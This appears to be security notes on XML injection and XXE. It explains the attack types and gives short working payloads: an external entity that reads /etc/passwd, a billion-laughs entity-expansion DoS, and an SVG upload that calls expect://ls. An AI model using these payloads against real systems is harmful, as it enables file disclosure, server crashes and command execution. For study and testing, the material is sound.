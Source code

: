 # Overview
>**XML Injection** is a type of attack that targets web applications that generate XML content. Attackers use malicious code to exploit vulnerabilities in XML parsers to manipulate the content of an XML document. This can result in unauthorized access to sensitive data, denial of service, and other potential risks to the application and its users
## Types
1. **Entity Injection**: An attacker can inject XML entities to modify or expose sensitive data, resulting in security vulnerabilities like information disclosure, denial of service, and remote code execution.
2. **Attribute Injection**: An attacker can inject malicious code into XML attributes, which can be executed when the attribute is processed.
3. **Schema Poisoning**: An attacker can modify the schema of an XML document to manipulate the parser's behavior or cause it to crash.
4. **XSLT Injection**: An attacker can inject malicious code into the XSLT stylesheet used to transform an XML document. This can be used to execute arbitrary code or manipulate the output of the transformation.

## XXE - XML External Entities
### Overview

>[!INFO] What is a XML External Entity Injection ?
XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
Some applications use the XML format to transmit data between the browser and the server. Applications that do this virtually always use a standard library or platform API to process the XML data on the server. XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application. 
XML external entities are a type of custom XML entity whose defined values are **loaded from outside of the DTD** in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

### Types
- [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files), where an external entity is defined containing the contents of a file, and returned in the application's response.
- [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks), where an external entity is defined based on a URL to a back-end system.
- [Exploiting blind XXE exfiltrate data out-of-band](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band), where sensitive data is transmitted from the application server to a system that the attacker controls.
- [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages), where the attacker can trigger a parsing error message containing sensitive data.

### Exploit
#### XXE to SSRF
[XXE Payloads](https://github.com/payloadbox/xxe-injection-payload-list)

#### XXE to LFI

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset [
<!ENTITY ignite SYSTEM "file:///etc/passwd">
]>...<CODE>
```

#### XXE Billion Laugh Attack-DOS

>[!INFO]
>These are aimed at XML parsers in which both, well-formed and valid, XML data crashes the system resources when being parsed. This attack is also known as **XML bomb** or XML **DoS** or exponential entity expansion attack.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

#### XXE File Upload

For instance with a SVG file : 
```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

Reference : https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload